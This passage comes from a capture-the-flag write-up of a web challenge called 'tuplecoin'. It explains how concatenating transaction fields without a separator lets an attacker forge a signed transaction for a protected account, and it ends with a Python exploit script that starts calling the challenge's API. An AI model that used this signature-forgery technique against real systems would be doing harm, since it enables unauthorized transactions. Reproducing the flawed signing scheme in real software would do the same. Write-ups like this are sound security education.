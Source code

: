 ```python
    return balance.sign(SECRET_KEY)

# Returns type Certified Transaction; Takes Transaction
@app.post("/api/transaction/certify")
async def transaction_certify(transaction: Transaction) -> CertifiedTransaction:
    if transaction.from_acct == TUCO_ACCT_NUM:
        raise HTTPException(status_code=400, detail="Ha! You think you can steal from Tuco so easily?!!")
    return transaction.sign(SECRET_KEY)

# Returns type String ; takes Certified Transcation (WE WILL GET OUR FLAG HERE)
@app.post("/api/transaction/commit")
async def transaction_commit(certified_transaction: CertifiedTransaction) -> str:
    transaction = certified_transaction.verify(SECRET_KEY)
    if transaction.from_acct != TUCO_ACCT_NUM:
        return "OK"
    else:
        return FLAG

```

Here we can look in the function transaction.sign (line:67), the tuco_smash varible calls self.serialize. 
In this function we can notice that for the generation of auth token, the app appends `from_acct` , `to_acct` and `num_tuco` _without any seperator_ 

This part is important, because without any seperator we can create the auth token for the user tuco by manipulating values.
Since the app appends the values without a seperator we can bypass the tuco account check by

`<first half of tuco's account number> + <second half of tuco's account number> + num tuco`

this will generate the auth-token, which we can use to "commit" as tuco's account number.

From source code we can deduce that to get the flag we must call `/api/transaction/commit` with tuco's account number and a valid hash to get the flag


The "from_acct" param and the "to_acct" param combine to form tuco's account number and the final string that will be generated - 31415926512
![](/images/hackpack2022/Pasted%20image%2020220411113258.png)


Using the same auth token from the last response in this request
All the params combine to form the same string as the previous request. i.e 31415926512
![](/images/hackpack2022/Pasted%20image%2020220411113313.png)



Here is an automated python script to do the same

```python
import json
import requests

url = 'https://tuplecoin.cha.hackpack.club/'
tuco = 314159265
headers = {
        "Content-Type":"application/json"
        }

data = {
        "from_acct" : int(str(tuco)[:-2]),
        "to_acct" : int(str(tuco)[-2:]),
        "num_tuco" : 12
    }

r = requests.post(url + 'api/transaction/certify' ,json = data ,  headers = headers)
```